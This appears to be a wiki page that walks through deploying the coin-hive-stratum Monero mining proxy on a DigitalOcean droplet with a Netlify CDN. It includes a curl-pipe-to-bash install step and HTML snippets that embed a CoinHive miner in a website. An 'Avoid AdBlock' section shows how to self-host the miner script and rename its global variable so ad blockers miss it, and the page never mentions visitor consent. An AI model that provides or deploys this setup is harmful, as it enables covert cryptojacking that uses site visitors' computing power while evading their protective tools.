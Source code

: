 Deploy [coin-hive-stratum](https://gitlab.com/cazala/coin-hive-stratum) to a DigitalOcean dropplet + Netlify CDN

# Account

Create an account at [DigitalOcean](https://m.do.co/c/f0a21da7be52).

If you sign up with [this link](https://m.do.co/c/f0a21da7be52) you will get $10 on DigitalOcean credit for free.

You can also enter a promo code:

* If you have a student email (ending with .edu) you can get $50 on DigitalOcean credit for free with a [GitHub Student Pack](https://education.github.com/pack). 

* If you don't have a student email, you can use the promo code LOWENDBOX to get $15 for free. 

* If the one above doesn't work, you can use DROPLET10 and get $10 for free. 

# Droplet

After logging in, go to your droplets and create a new one:
￼

![33801081-01a9a1d2-dd2e-11e7-9929-abe4c4040f6b](/uploads/a6a9e8b76cf9a6d0d27d2f67b4bcf3e3/33801081-01a9a1d2-dd2e-11e7-9929-abe4c4040f6b.png)

Choose an Ubuntu image:

![33801080-01883254-dd2e-11e7-81b2-3e00a4d0d07f](/uploads/644fa6ced095d3b993adb5a31df239bb/33801080-01883254-dd2e-11e7-81b2-3e00a4d0d07f.png)
￼
Choose the size:
￼
![33801082-01c9cce6-dd2e-11e7-86b3-42ab26582f4c](/uploads/e840b11c5beb5fc0e91549557ffe82f4/33801082-01c9cce6-dd2e-11e7-86b3-42ab26582f4c.png)

Choose a region:
￼
![33801090-41e6581c-dd2e-11e7-84e0-efa6ffbd9406](/uploads/1d3b271daabe643d497a82586cc2fb53/33801090-41e6581c-dd2e-11e7-84e0-efa6ffbd9406.png)

After creating your droplet you will receive an email with your droplet's credentials:

```
Droplet Name: ubuntu-512mb-nyc3-01
IP Address: 203.0.113.0
Username: root
Password: EXAMPLE71936efe52b9eb4c602
```

Users of Windows without Bash will have to [access their droplet using Putty](https://www.digitalocean.com/community/tutorials/how-to-log-into-your-droplet-with-putty-for-windows-users).

If you use of Linux, Mac, or Windows with Bash, you can access your droplet via OpenSSH:

```
ssh root@203.0.113.0
```

Once logged in, run this command:

```
curl -o- https://raw.githubusercontent.com/cazala/coin-hive-stratum/master/install.sh | bash 
```

This will install `coin-hive-stratum` and all it's dependencies.

Now run this to activate NVM:

```
source ~/.bashrc
```

To configure your proxy, edit the file proxy.js (by default it's pointing to pool.supportxmr.com:3333):

```
vi proxy.js
```

Now you can start your proxy using pm2:

```
pm2 start proxy.js --name=proxy --log-date-format="YYYY-MM-DD HH:mm"
```

Run this to monitor your proxy:

```
pm2 monit
```

And this to stop it:

```
pm2 stop proxy
```

Now you proxy is available via `ws://X.X.X.X` (where `X.X.X.X` is your droplet's IP) !

For example:

```html
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
  // Configure CoinHive to point to your proxy
  CoinHive.CONFIG.WEBSOCKET_SHARDS = [["ws://203.0.113.0"]];

  // Start miner
  var miner = CoinHive.Anonymous('your-monero-address');
  miner.start();

</script>
```

# Custom Domain or Subdomain and SSL

Probably you will want to access your proxy from a domain instead of an IP, and be able to use `wss://`

In order to do this you will have to buy a domain if you don't have one ([GoDaddy](https://www.godaddy.com/), [NameCheap](https://www.namecheap.com/), or any other will work), and follow this guide:

* [Point your Nameservers to DigitalOcean](https://www.digitalocean.com/community/tutorials/how-to-point-to-digitalocean-nameservers-from-common-domain-registrars)

If you already have a domain, and you are using Cloudflare (if you don't, you should) and you want to use your proxy under a subdomain, follow this guide:

* [Cloudflare pointing subdomains to different droplets](https://www.digitalocean.com/community/questions/cloudflare-pointing-subdomains-to-a-different-droplets)

To generate your SSL certificates for your domain or subdomain follow this guide:

* [Use Certbot to retrieve Let's Encrypt SSL certificates](https://www.digitalocean.com/community/tutorials/how-to-use-certbot-standalone-mode-to-retrieve-let-s-encrypt-ssl-certificates)

After you have your domain or subdomain setup and your SSL certificates, just edit the file `proxy_secure.js` and add your domain in the line `const domain = "yourdomain.com"`:

```
vi proxy_secure.js
```

It should look like this:

```
const Proxy = require("coin-hive-stratum");
const domain = "yourdomain.com"
const proxy = new Proxy({
  host: "pool.supportxmr.com",
  port: 3333,
  key: require("fs").readFileSync("/etc/letsencrypt/live/" + domain + "/privkey.pem"),
  cert: require("fs").readFileSync("/etc/letsencrypt/live/" + domain + "/fullchain.pem"),
});
proxy.listen(443);
```

And run your proxy using this instead:

```
pm2 start proxy_secure.js --name=proxy --log-date-format="YYYY-MM-DD HH:mm"
```

Now your proxy will be accesible from your domain and via `wss://`!

For example:

```html
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
  // Configure CoinHive to point to your proxy
  CoinHive.CONFIG.WEBSOCKET_SHARDS = [["wss://my-awesome-proxy.com"]];

  // Start miner
  var miner = CoinHive.Anonymous('your-monero-address');
  miner.start();

</script>
```

# Avoid AdBlock

You may also want to host your own assets instead of using CoinHive's to avoid AdBlock.

In order to do that, fork [this repo](https://gitlab.com/cazala/coin-hive-stratum).

![fork](/uploads/095f91e51a26af9cb29319cff3139eb6/fork.gif)

---
￼
Now login to [Netlify](https://netlify.com) and follow this instruction:

* Click on `New site from Git`

* Connect to Gitlab

* Select the repo you just forked: `coin-hive-stratum`

* Select the branch `assets`

* Deploy!

![netlify](/uploads/bba96ae08beae3c0e1684e0b1d18ab72/netlify.gif)

This will give you a url like this:

```
https://priceless-wright-067e2f.netlify.com
```

Now instead of using CoinHive's miner:

```html
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
```

You should use your miner like this:

```html
<script src="https://priceless-wright-067e2f.netlify.com/m.js?proxy=YOUR-PROXY-URL"></script>
```

This is an example of how it should look like:

```html
<script src="https://priceless-wright-067e2f.netlify.com/m.js?proxy=wss://my-awesome-proxy.com"></script>
```

Also, instead of using the CoinHive global variable use CH (this is to avoid AdBlock), ie:

```html
<script src="https://priceless-wright-067e2f.netlify.com/m.js?proxy=wss://my-awesome-proxy.com"></script>
<script>
  var miner = CH.Anonymous('MONERO_WALLET_ADDRESS');
  miner.start();
</script>
```
